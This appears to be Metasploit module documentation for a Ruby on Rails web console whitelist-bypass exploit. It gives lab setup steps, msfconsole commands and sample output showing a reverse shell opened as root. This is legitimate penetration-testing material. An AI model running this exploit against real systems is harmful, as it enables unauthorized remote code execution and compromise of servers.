 ## Description

 This module exploits an IP whitelist bypass vulnerability in the developer web console included with Ruby on Rails 4.0.x and 4.1.x. This module will also achieve code execution on Rails 4.2.x if the attack is launched from a whitelisted IP range.

## Verification Steps
**Prerequisites :**
```
$ gem install rails -v 4.2.6
$ rails new taco
$ cd taco
$ vim config/environments/development.rb
  Add the following line just before the final `end' tag:
  config.web_console.whitelisted_ips = %w(0.0.0.0/0)
$ bundle
$ rails server
```

**Installing nodejs :**
```
sudo apt-get install nodejs
```

**Launch msfconsole :**
1. Do: ```use exploit/multi/http/rails_web_console_v2_code_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [Port]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/multi/http/rails_web_console_v2_code_exec 
msf exploit(rails_web_console_v2_code_exec) > set RHOST 192.168.0.106
msf exploit(rails_web_console_v2_code_exec) > set RPORT 35678
msf exploit(rails_web_console_v2_code_exec) > run

[*] Started reverse TCP handler on 192.168.0.102:4444
[*] Sending payload to /__web_console/repl_sessions/d89c2f96387f4b9dd612c0abb7c06577
[*] Command shell session 1 opened (192.168.0.102:4444 -> 192.168.0.106:35678) at 2017-04-07 04:13:52 +0800

id
uid=0(root) gid=0(root) groups=0(root)


```

